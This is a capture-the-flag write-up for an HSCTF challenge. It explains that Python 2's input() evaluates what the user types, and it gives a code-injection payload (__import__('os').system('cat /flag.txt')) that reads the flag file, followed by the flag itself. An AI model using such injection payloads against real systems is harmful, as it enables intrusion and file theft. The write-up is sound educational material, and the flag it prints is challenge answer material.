 # My First Calculator

Author: [roerohan](https://github.com/roerohan)

Exploit a python 2 vulnerability.

# Requirements

- Python 2

# Source

- [calculator.py](./calculator.py)

```
I'm really new to python. Please don't break my calculator!

nc misc.hsctf.com 7001

There is a flag.txt on the server.

Author: meow
```

```python
#!/usr/bin/env python2.7

try:
    print("Welcome to my calculator!")
    print("You can add, subtract, multiply and divide some numbers")

    print("")

    first = int(input("First number: "))
    second = int(input("Second number: "))

    operation = str(raw_input("Operation (+ - * /): "))

    if first != 1 or second != 1:
        print("")
        print("Sorry, only the number 1 is supported")

    if first == 1 and second == 1 and operation == "+":
        print("1 + 1 = 2")
    if first == 1 and second == 1 and operation == "-":
        print("1 - 1 = 0")
    if first == 1 and second == 1 and operation == "*":
        print("1 * 1 = 1")
    if first == 1 and second == 1 and operation == "/":
        print("1 / 1 = 1")
    else:
        print(first + second)
except ValueError:
    pass

```

# Exploitation

The code for the `calculator.py` file uses `input()` in python 2. The `input()` function in python 2 is vulnerable, since it does not stringify the input, instead takes it as it is. For example, if you were to pass `__import__('os')`, it would be executed. So, here's the payload:

```bash
Welcome to my calculator!
You can add, subtract, multiply and divide some numbers

First number: __import__('os').system('cat /flag.txt')
flag{please_use_python3}
```

You can search around in the directories to find the flag using `ls`, etc. The flag is eventually found in the `/` directory. The flag is:

```
flag{please_use_python3}
```